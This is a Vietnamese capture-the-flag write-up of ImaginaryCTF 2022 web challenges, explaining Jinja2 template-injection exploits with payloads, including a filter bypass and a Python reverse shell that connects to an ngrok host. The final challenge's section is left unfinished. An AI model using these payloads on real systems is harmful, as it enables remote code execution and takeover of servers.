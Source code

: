 ```yaml
---
title: "Imaginary CTF 2022"
author: "mtiennnnn"
tags: write-up web
---
```

{% raw %}
# SSTI Golf

Đề bài cho thẳng source có lỗi SSTI như sau

```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```

Check param `query` tại `/ssti` và giới hạn độ dài là 48. Bài này thì easy rồi nên mình cho thẳng payload mình hay dùng.

```python
{{lipsum.__globals__.os.popen('nl *').read()}}
```

![image](https://user-images.githubusercontent.com/75429369/179644681-16ad9d92-6c4c-4e2f-896a-46d4e4f950a8.png)

# minigolf

Một bài SSTI khác nhưng lần này khó hơn ở chỗ tác giả đã filter thêm một số ký tự `{{` `[` `_`

```python
from flask import Flask, render_template_string, request, Response
import html

app = Flask(__name__)

blacklist = ["{{", "}}", "[", "]", "_"]

@app.route('/', methods=['GET'])
def home():
  print(request.args)
  if "txt" in request.args.keys():
    txt = html.escape(request.args["txt"])
    if any([n in txt for n in blacklist]):
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

Ban đầu mình cũng cố gắng chắp vá payload bằng những cách thường dùng như dùng `attr|` `dict` nhưng độ dài là rất ít (<= 69).

Sau một hồi thì mình có tham khảo được trang [này](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Đại khái ý tưởng ở đây sẽ là chèn một chuỗi với độ dài tuỳ thích vào một biến nào đó trong file `config`, sau đó ta sẽ `popen` tới nó để sử dụng. Mình test thử nhé. Đầu tiên ta sẽ lưu chuỗi như ý muốn vào `config.a`

Ban đầu mình thử với payload sau nhưng không được

```
?txt={%set t=config.update(a=request.args('a')))%}&a=this is a test mtiennnnn
```

Mình không hiểu tại sao payload này lại không work :) (có ai biết chỉ mình với nha), sau đó mình cho hẳn cái `request.args` thành một biến khác thì lại work.

```
?txt={%set o=request.args%}{%set b=config.update(a=o.t)%}&t=this is a test mtiennnnn
```

Đọc thử `config.a` thì đã thấy chuỗi mình nhập

![image](https://user-images.githubusercontent.com/75429369/179645383-e56b8dfc-e37a-4b05-a2f1-d91fdebfe75f.png)

Vậy là đạt được mục đích rồi, giờ chỉ cần set up reverse shell nữa là xong

```
?txt={%set%20o=request.args%}{%set%20b=config.update(a=o.t)%}&t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28"0.tcp.ap.ngrok.io"%2C14474%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B"%2Fbin%2Fsh"%2C"-i"%5D%29%3B%27
```

Check lại `config.a` lần nữa cho chắc

![image](https://user-images.githubusercontent.com/75429369/179646144-de31d54a-441f-4893-baec-304beed007ee.png)

Oke popen nó là ta có thể rce được rồi

```
?txt={%set o=request.args%}{%set b=(lipsum|attr(o.t)).os.popen(config.a)%}&t=__globals__
```

![image](https://user-images.githubusercontent.com/75429369/179646491-6aa503cd-b5ea-49ab-b92c-572f3a32baab.png)

_Note: bài này mình cứ ghi thiếu ngoặc với thiếu kí tự gì đấy nên cứ 500 miết =))_

# 1337

```javascript
import mojo from "@mojojs/core";
import Path from "@mojojs/path";

const toLeet = {
  A: 4,
  E: 3,
  G: 6,
  I: 1,
  S: 5,
  T: 7,
  O: 0,
};

const fromLeet = Object.fromEntries(
  Object.entries(toLeet).map(([k, v]) => [v, k])
);

const layout = `<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>1337</title>
    <link rel="stylesheet" href="static/style.css">
</head>
<body>
    <main>
        <%== ctx.content.main %>
    </main>
    <canvas width="500" height="200" id="canv" />
    <script src="static/matrix.js"></script>
</body>
</html>`;

const indexTemplate = `
<h1>C0NV3R7 70/FR0M L337</h1>
<form id="leetform" action="/">
    <input type="text" id="text" name="text" placeholder="Your text here">
    <div class="switch-field">
        <input type="radio" id="dir-to" name="dir" value="to" checked="checked">
        <label for="dir-to">TO</label>
        <input type="radio" id="dir-from" name="dir" value="from">
        <label for="dir-from">FROM</label>
    </div>
    <input type="submit" value="SUBMIT">
</form>
<div id="links">
  <a href="/source">/source</a>
  <a href="/docker">/docker</a>
</div>
`;

const app = mojo();

const leetify = (text, dir) => {
  const charBlocked = ["'", "`", '"'];
  const charMap = dir === "from" ? fromLeet : toLeet;

  const processed = Array.from(text)
    .map((c) => {
      if (c.toUpperCase() in charMap) {
        return charMap[c.toUpperCase()];
      }

      if (charBlocked.includes(c)) {
        return "";
      }

      return c;
    })
    .join("");

  return `<h1>${processed}</h1><a href="/">â†BACK</a>`;
};

app.get("/", async (ctx) => {
  const params = await ctx.params();
  if (params.has("text")) {
    return ctx.render({
      inline: leetify(params.get("text"), params.get("dir")),
      inlineLayout: layout,
    });
  }
  ctx.render({ inline: indexTemplate, inlineLayout: layout });
});

app.get("/source", async (ctx) => {
  const readable = new Path("index.js").createReadStream();
  ctx.res.set("Content-Type", "text/plain");
  await ctx.res.send(readable);
});

app.get("/docker", async (ctx) => {
  const readable = new Path("Dockerfile").createReadStream();
  ctx.res.set("Content-Type", "text/plain");
  await ctx.res.send(readable);
});

app.start();
```

Tiếp tục là một bài SSTI (được dịp ôn SSTI gớm), ở bài này nó sẽ convert một số ký tự từ chữ sang số và ngược lại. (btw, payload test ssti `<%== 7*7%>`).

Ngoài convert những kí tự như trên thì ở hàm `leetify`, tác giả còn chặn những kí tự như `'` `"` ```
Tiếp cận bài này ban đầu của mình là mình đi theo hướng URLencode nhưng không hợp lí vì lấy ví dụ `'` là %27 thì số 7 đã bị block.
 an com ti viet tiepa
 
 {% raw %}










